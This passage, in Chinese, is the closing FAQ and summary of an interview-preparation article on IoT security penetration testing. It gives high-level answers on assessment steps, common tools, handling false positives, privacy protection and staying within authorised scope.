- **隐私保护**：不收集和泄露个人敏感信息。
- **测试范围**：仅限于授权测试的系统和网络。

#### 9.4 如何评估一个物联网系统的安全性？

**可以通过以下步骤评估物联网系统的安全性：**

- **漏洞扫描**：使用专业的漏洞扫描工具进行系统扫描。
- **代码审计**：对系统代码进行审计，查找潜在的安全漏洞。
- **模拟攻击**：模拟各种攻击，如中间人攻击、拒绝服务攻击等，评估系统的抗攻击能力。
- **安全配置检查**：检查系统的配置文件，确保符合安全标准。

#### 9.5 渗透测试中的常见工具有哪些？

**常见的渗透测试工具包括：**

- **Nmap**：用于端口扫描和系统发现。
- **Metasploit**：用于漏洞利用和攻击模拟。
- **Burp Suite**：用于Web应用安全测试。
- **Wireshark**：用于网络协议分析。
- **John the Ripper**：用于密码破解。

#### 9.6 在渗透测试中如何处理误报？

**处理误报的方法包括：**

- **验证漏洞**：对扫描结果中的每个漏洞进行验证，确保其真实性和严重性。
- **调整扫描参数**：调整扫描工具的参数，减少误报。
- **咨询专家**：与经验丰富的渗透测试专家咨询，获取专业建议。
- **反馈和改进**：将误报情况反馈给工具开发人员，促进工具的改进。

#### 9.7 如何在渗透测试中保护隐私？

**在渗透测试中保护隐私的方法包括：**

- **使用加密**：确保数据传输和存储过程中使用加密算法。
- **最小权限原则**：只授予测试人员完成测试任务所需的最小权限。
- **数据匿名化**：在收集和分析数据时，对敏感信息进行匿名化处理。
- **合规性检查**：确保测试行为符合相关法律法规和道德标准。

通过解答这些常见问题，可以帮助应聘者更好地理解物联网安全渗透测试的相关概念和实践，为面试做好充分准备。

### 文章完

本文从背景介绍、核心概念、算法原理、数学模型、项目实践、应用场景、未来展望、工具推荐、总结与常见问题解答等多个方面，系统地介绍了360公司2025年物联网安全社招渗透测试面试的攻略。通过深入探讨物联网安全的核心概念和技术，以及实际操作案例，本文旨在帮助应聘者全面掌握渗透测试的技能和知识，提高面试通过率。同时，本文也展望了物联网安全渗透测试的未来发展趋势和挑战，为读者提供了有价值的研究方向和建议。希望本文对广大物联网安全从业者有所帮助，共同推动物联网安全领域的发展。作者：禅与计算机程序设计艺术 / Zen and the Art of Computer Programming。

